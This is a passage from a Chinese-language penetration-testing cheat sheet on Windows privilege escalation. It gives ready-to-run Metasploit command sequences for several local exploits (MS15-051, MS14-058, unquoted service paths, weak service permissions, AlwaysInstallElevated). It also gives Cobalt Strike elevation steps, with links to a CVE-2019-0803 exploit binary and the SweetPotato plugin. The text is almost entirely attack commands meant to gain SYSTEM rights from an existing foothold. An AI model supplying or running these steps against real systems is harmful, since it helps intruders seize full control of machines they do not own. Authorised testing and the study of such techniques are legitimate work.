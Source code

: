 > 适用于Win7、Win server 2008R2 SP1 x64

```msf
use exploit/windows/local/ms15_051_client_copy_image
set lhost xx.xx.xx.xx
set session 1
exploit
```

#### MS14_058提权

```msf
use exploit/windows/local/ms14_058_track_popup_menu
set lhost xx.xx.xx.xx
set session 1
exploit
```

### Windows系统服务漏洞提权

#### unquoted_service_path模块

- Metasploit集成有 unquoted_service_path 模块

  ```msf
  use exploit/windows/local/unquoted_service_path
  set session 1
  run
  ```

  > 没有权限重启服务，等待服务器重启时执行 exe ，或手动执行重启服务器命令reboot ，等待服务器重启完毕，成功上线 SYSTEM 权限 session

#### service_permissions模块

```
use exploit/windows/local/service_permissions
set sessions 1
run
```

#### always_install_elevated模块

```
use exploit/windows/local/always_install_elevated
set sessions 1
run
```

## CobaltStrike提权

### Elevate

右键点击已上线的主机，选择`Access`中的`Elevate`

#### CVE-2019-0803

> https://github.com/k8gege/K8tools/raw/master/CVE-2019-0803.exe

#### Powershell

```powershell
help powershell-import
Use: powershell-import [/path/to/local/script.ps1]
```

#### SweetPotato

> https://github.com/Tycx2ry/SweetPotato_CS

`mingy_cna`里有，在权限提升模块

